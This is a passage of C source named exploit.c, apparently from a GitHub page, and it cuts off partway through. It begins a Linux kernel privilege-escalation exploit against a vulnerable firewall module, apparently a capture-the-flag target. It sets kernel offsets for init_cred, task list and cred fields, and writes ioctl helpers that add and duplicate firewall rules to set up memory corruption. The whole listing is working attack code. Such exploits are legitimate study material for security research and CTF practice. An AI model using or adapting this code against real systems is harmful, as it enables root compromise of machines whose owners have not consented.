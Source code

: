 ```exploit.c
#define OUTBOUND 1
#define SKIP -1

scu diff_init_cred_ipc_ns = 0xffffffff81c33060 - 0xffffffff81c3d7a0;
scu diff_init_task_ipc_ns = 0xffffffff81c124c0 - 0xffffffff81c3d7a0;

#define ADDR_FAULT 0xdead000

#define COMM_OFFSET 0x550
#define TASKS_PREV_OFFSET 0x2A0
#define TASKS_NEXT_OFFSET 0x298
#define CRED_OFFSET 0x540
#define TASK_OVERBUFSZ DATALEN_MSG + 0x800

// (END constants )

/*********** globals ******************/

int firewall_fd = -1;
char *buf_name;
char *buf_iface;
char *buf_ip;
char *buf_netmask;
ulong target_task = 0;

// (END globals )


long firewall_ioctl(long cmd, void *arg) {
  assert(firewall_fd != -1);
  return ioctl(firewall_fd, cmd, arg);
}

void add_rule(char *iface, char *name, uint8_t idx, uint8_t type, char *desc) {
  user_rule_t rule = {
    .idx = idx,
    .type = type,
    .proto = IPPROTO_TCP,
    .port = 0,
    .action = NF_DROP,
  };
  memcpy(rule.iface, iface, 16);
  memcpy(rule.name, name, 16);
  strcpy(rule.ip, "0.1.2.3");
  strcpy(rule.netmask, "0.0.0.0");
  memcpy(rule.desc, desc, DESC_MAX);
  long result = firewall_ioctl(ADD_RULE, (void*)&rule);
  assert(result == SUCCESS);
  return;
}

void dup_rule(uint8_t src_type, uint8_t idx) {
  user_rule_t rule = {
    .type = src_type,
    .idx = idx,
  };
  long result = firewall_ioctl(DUP_RULE, (void*)&rule);
  assert(result == SUCCESS);
  return;
}

void delete_rule(uint8_t type, uint8_t idx) {
  user_rule_t rule = {
```